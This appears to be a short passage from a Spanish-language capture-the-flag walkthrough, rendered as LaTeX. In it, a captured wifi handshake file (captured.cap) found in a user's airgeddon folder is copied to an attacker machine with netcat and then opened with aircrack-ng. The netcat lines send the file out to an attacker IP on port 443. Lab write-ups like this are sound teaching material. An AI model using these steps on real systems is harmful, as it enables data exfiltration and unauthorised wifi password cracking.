 \documentclass{assets/ipesethesis}
\newenvironment{Shaded}{\begin{snugshade}}{\end{snugshade}}
\newcommand{\BuiltInTok}[1]{#1}
\newcommand{\CommentTok}[1]{\textcolor[rgb]{0.56,0.35,0.01}{\textit{#1}}}
\newcommand{\ExtensionTok}[1]{#1}
\newcommand{\FunctionTok}[1]{\textcolor[rgb]{0.00,0.00,0.00}{#1}}
\newcommand{\NormalTok}[1]{#1}
\newcommand{\OperatorTok}[1]{\textcolor[rgb]{0.81,0.36,0.00}{\textbf{#1}}}
\begin{document}
\begin{Shaded}
\begin{Highlighting}[]
\BuiltInTok{cd}\NormalTok{ /home}
\CommentTok{#Output}
\ExtensionTok{zeus}

\FunctionTok{ls}\NormalTok{ /home/zeus}
\CommentTok{#Output}
\ExtensionTok{airgeddon}
\end{Highlighting}
\end{Shaded}

\hypertarget{airgeddon.cap-crack-with-aircrack-ng}{%
\subsection*{Airgeddon.cap crack with Aircrack-ng}\label{airgeddon.cap-crack-with-aircrack-ng}}

Airgeddon es una suite de utilidades para hacer auditorias wifi. Entrando en el repertorio airgeddon del usuario zeus encontramos
otro repertorio llamado captured. Filtrando el contenido del directorio aigedon por ficheros \texttt{find\ \textbackslash{}-type\ f} encontramos un fichero
\textbf{captured.cap}

Vamos a transferir el fichero captured.cap a nuestro equipo de attackante

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  En la maquina de attackante

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{nc}\NormalTok{ -nlvp 443 }\OperatorTok{>}\NormalTok{ captured.cap}
\end{Highlighting}
\end{Shaded}
\item
  En el contenedor

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{nc}\NormalTok{ 10.10.14.28 443 }\OperatorTok{<}\NormalTok{ captured.cap}
\end{Highlighting}
\end{Shaded}
\end{enumerate}

Saviendo que Airgeddon es una utilidad de auditoria wifi intentamos ver lo que contiene el \textbf{captured.cap} con la utilidad \textbf{aircrack-ng}.

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{aircrack-ng}\NormalTok{ captured-cap}
\end{Highlighting}
\end{Shaded}
\end{document}
